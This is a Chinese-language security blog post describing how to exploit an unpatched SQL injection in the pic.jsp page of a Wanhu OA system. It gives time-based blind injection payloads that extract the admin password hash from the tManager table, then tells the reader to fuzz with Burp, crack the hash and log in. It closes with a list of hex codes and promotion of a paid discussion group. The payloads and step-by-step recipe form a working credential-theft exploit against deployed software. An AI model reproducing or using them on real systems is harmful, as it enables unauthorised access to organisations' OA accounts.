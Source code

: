 #  某户oa sql注入漏洞后续利用（部分）   
goddemon  goddemon的小屋   2024-08-22 18:39  
  
## 前言：  
  
有朋友在  
问，也恰好有空，那就写一篇分享下吧。  
  
这个oa网上遇到的poc的话，大部分情况是sql没修，权限绕过修复了导致之前爆出去的上传漏洞打不了。   
  
但是可以利用前台的sql注入dump出密码，进而去打。  
  
## 正文：  
  
这里只给一个pic.jsp  
  
万户的数据库账户表默认为tManager表，且据笔者遇到而言，大部分均为sqlserver数据库。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BYtyQicN4iaC4uCibdicCJcBhE0zgWW9WYhGNXOHqN03B2qm8QM36zKzF7GxpPBibbtFyKtRdyCJbv7pe0swicb2DvgA/640?wx_fmt=png&from=appmsg "")  
因此根据这个就可以去构造延时注入的sql语句，进而根据时间回显判断出具体的payload。  
  
  
如结合之前的pic.jsp这个注入的payload  
```
10  manager_pwd from  [oa]..[tManager] IF((SELECT TOP 10 SUBSTRING(manager_pwd, 1,1) AS first_char FROM [oa]..[tManager] WHERE manager_zh = 'admin')='D') WAITFOR DELAY '0:0:5'--
10  manager_pwd from  [oa]..[tManager] IF((SELECT TOP 10 SUBSTRING(manager_pwd, 2,1) AS first_char FROM [oa]..[tManager] WHERE manager_zh = 'admin')='D') WAITFOR DELAY '0:0:5'--

```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/BYtyQicN4iaC4uCibdicCJcBhE0zgWW9WYhGqKl3BV24f2OsawvlyaHWe4iauqficxuG0MyYDiaSwbrvj28XGCOPJl7icw/640?wx_fmt=other&from=appmsg "")  
  
而后burp fuzz即可![](https://mmbiz.qpic.cn/mmbiz_jpg/BYtyQicN4iaC4uCibdicCJcBhE0zgWW9WYhGWr4VP0T77rgng0kt3y5A2ibS4ZFSvjia03AibbPEG2TcylvOrV3P7vzhQ/640?wx_fmt=other&from=appmsg "")  
而后排序解密即可![](https://mmbiz.qpic.cn/mmbiz_png/BYtyQicN4iaC4uCibdicCJcBhE0zgWW9WYhGNIp5ApNrZaqI4GMicXbleVjRM5ObU4zcZ7ap5xibdxVUJtwy0icicQib4dw/640?wx_fmt=png&from=appmsg "")  
而后cmd5解密 登录即可  
## 后文：  
  
1、top100bug wiki 放10个，慢慢更吧  
  
可以理解为提供一个交流渠道吧  
  
http://wiki.top100bug.com/  
```
d660dfb7312e0d30f8007d7b50a706ed
6b5209f71be18361322c514421c1e728
b713b4434f838019a17993af18be1ae5
67d4df97c5d60505eaa2dd0a3b680dad
6739ecaf84dc5a9e02eaf7419e45dcfd
0c19a8408b4da1c32261340175b0afa6
2a26bbc61c3ddd5dd72b51f576844c8d
f78b2b4b3337e76f7d5ab223f4e183ce
d4940670e51e3ef851d00a63b4630628
8cabef624acf034101b4cbc23c5635f3

```  
  
内容的话，认真想了想还是不要提交漏洞poc吧，提交了也不过审。  
  
  
好玩的姿势的话可以有，以及有趣的姿势可以有，但是记得打码。  
  
  
2、星球会开设一个专题，漏洞分析专题，对以往的漏洞进行原理分析以及如何进阶利用。   
  
部分内容看情况同步公众号。  
  
  
3、私聊，添加问题，不一定均回复。   
  
在DIY和研究技术中![](https://mmbiz.qpic.cn/mmbiz_jpg/BYtyQicN4iaC4uCibdicCJcBhE0zgWW9WYhG2YnTib26lo9cuDX2Q3L7jywjRXGgWoRYZMxnQQndDBhGMX8C1OvudIg/640?wx_fmt=jpeg&from=appmsg "")  
4、 加了星球注意加公众号的微信，拉进群   
  
虽然说不是天天讨论技术，但是有问题一起交流以及看到好玩的技术分享   
  
其实还是可以有的![](https://mmbiz.qpic.cn/mmbiz_jpg/BYtyQicN4iaC4uCibdicCJcBhE0zgWW9WYhGeqGveIW5FPrLonegtUlBUTXeqGRtTr7wQ5lU6HiaCd1icekQnsIFVeibw/640?wx_fmt=jpeg&from=appmsg "")  
  
##   
  
  
  
